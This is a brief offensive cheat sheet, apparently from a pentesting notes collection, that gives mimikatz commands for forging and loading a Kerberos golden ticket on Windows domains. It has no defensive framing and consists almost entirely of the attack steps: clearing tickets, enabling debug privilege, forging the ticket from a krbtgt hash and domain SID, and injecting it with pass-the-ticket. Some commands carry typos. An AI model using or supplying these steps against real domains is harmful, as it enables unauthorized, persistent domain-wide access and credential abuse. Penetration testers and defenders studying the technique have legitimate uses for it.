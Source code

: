 # Windows - Golden Ticket

```klist purge```

Purge all ticket

```
mimikatz# privilige::debug
Privilige '20' OK
```

Check privilege level

```
mimikatz# kerberos::golden /user:<user> /domain:<domain> /sid:<domain_sid> /<cipher_type(e.g. AES256)><krbtgt_hash> /ticket:<generated_ticket_name>
```

Create Golden ticket

```debug# kerberos::ptt <ticket_name>```

Load Golden ticket

**References**
* https://github.com/gentilkiwi/mimikatz/wiki/module-~-kerberos
